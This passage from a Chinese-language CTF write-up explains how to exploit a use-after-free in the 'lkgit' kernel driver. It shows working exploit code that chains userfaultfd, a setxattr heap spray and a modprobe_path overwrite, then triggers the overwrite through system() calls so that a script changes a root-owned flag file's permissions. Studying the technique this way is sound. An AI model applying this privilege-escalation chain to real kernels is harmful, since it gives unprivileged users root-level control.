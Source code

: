 ```c
if (shmaddr == (void*)-1) {
	perror("shmat");
	return 1;
}
```

### further exploit
目前看到主要是两种思路来控制流劫持：
1. 用内核自带结构体覆盖函数指针，然后打栈迁移 + ROP，我们这里因为是 kmalloc-32 而且 shm_file_data 没找到可以控制流劫持的方法，所以只可以用 seq_operations，但是这里的函数指针无法在 amend_message 中修改      
2. 学了一种新的 getshell 方法，是用 modprobe_path 来用一个 kernel 任意地址写来 `cat flag` ，而 UAF 后被占住的结构体是用的 setxattr ，这两点会在后续介绍

#### after arbituary write
modprobe_path 的套路是当用户态调用execve运行一个无法识别格式的二进制程序时，内核会通过 `call_modprobe()` 函数执行内核全局变量modprobe_path 指明的程序（/sbin/modprobe 为 default）   
有一个小点：在 IDA 中没有将 "/sbin/modprobe" 整体识别出来，所以在 gdb 中用 `search "/sbin/modprobe"` 找到带 kaslr 的 modprobe_path， 减去偏移得到 vmlinux 中的 modprobe_path 地址     
我们把该地址写成 `/tmp/x`，之后在用户态执行下列代码    
```c
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /home/user/flag' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");
    system("/tmp/dummy");
    sleep(0.3);
    system("cat /home/user/flag");
    exit(0);
```
具体来讲，/tmp/x 是一个 bash 脚本，用来改 /home/user/flag 的权限，而 /tmp/dummy 的格式未知，我们在 /tmp/dummy 的时候会调用该 bash 脚本，使得非 root 权限也可以 cat flag       
它本质的操作是： **enabling cat flag with only a kernel arbituary write primitive**       

#### how to get arbituary write?
考虑在 fault_handler_thread 中调用 setxattr    
就像是如下代码    
```c
	attr_buf[3] = modprobe_path;
    // occupy the freed space
    setxattr("/dev/null", "attr", attr_buf, 0x20, 0); // free 之后被申请出来
``` 
它本质上提供的操作是：**占住一个我们设定的大小的堆块并且覆盖为我们设定的数据**，是不是非常适合 UAF?     
像是上面的代码，它就是申请一个 0x20 大小的堆块，覆盖为 attr_buf 的内容      
以及在这里，看 driver code `lkgit_amend_message` 中下面几行    
```c
		if (copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ)) // this can do sort of UAF write
			goto end;
		// return old information of object
		ret = lkgit_get_object(reqptr);
		// amend message
		memcpy(target->message, buf, MESSAGE_MAXSZ);
```
如果我们在如上 copy_from_user 的时候，free 掉 target，然后把 target 用 setxattr 重新申请出来，把 message 对应的 0x18 字段覆盖为 modprobe_path 地址，然后用 userfaultfd 自带的 `ioctl(uffd, UFFDIO_COPY, &uffdio_copy)` 操作把 `/tmp/x` 写到 buf 就可以顺利完成 modprobe_path 所需操作 ~      

